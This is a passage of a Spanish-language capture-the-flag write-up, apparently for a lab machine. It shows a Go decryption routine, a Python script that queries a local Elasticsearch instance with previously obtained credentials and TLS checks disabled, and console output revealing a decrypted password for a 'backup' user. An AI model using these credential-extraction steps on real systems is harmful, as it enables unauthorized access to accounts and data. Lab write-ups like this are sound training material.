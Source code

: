 ```go

	return string(plaintext), nil
}

func main() {
	seed,blob,err := getSeedAndBlob()
	if err != nil {
		fmt.Println("Error: ", err)
		return
	}
	fmt.Println("Seed: ", seed)
	fmt.Println("Blob: ", blob)
	plaintext, err := decrypt(seed, blob)
	if err != nil {
		fmt.Println("Decryption error:", err)
		return
	}

	fmt.Println("Decrypted plaintext:", plaintext)
}
```

Este script utiliza otro script en python llamado `getData.py` que simplemente hace una petición para conseguir el valor de `seed` y `blob` utilizando las credenciales anteriormente conseguidas.

```python
# getData.py
import requests
import urllib3
urllib3.disable_warnings()

URL = "https://127.0.0.1:9200/_search?pretty=true"
user = "user"
pwd = "DumpPassword$Here"

r = requests.get(URL, auth=(user, pwd), verify=False)
json_response = r.json()

seed_value = json_response['hits']['hits'][0]['_source']['seed']
blob_value = json_response['hits']['hits'][1]['_source']['blob']

print(f"{seed_value}|{blob_value}")
```

Al ejecutar el script...
```console
$ go run pass.go 
Seed:  41025560
Blob:  cMhkWTlT3MddLGL7ZzdusdiuHtKDKZwWmw4idmKoehp6mI7_L2PZ_MLAwN1JgW54jhEesmZlNdM=
Decrypted plaintext: fBcdkirrMWHVckDMWJWNNtEjDYgzVVOImuDJWlPq
```

En principio la credencial del usuario `backup` es `fBcdkirrMWHVckDMWJWNNtEjDYgzVVOImuDJWlPq`
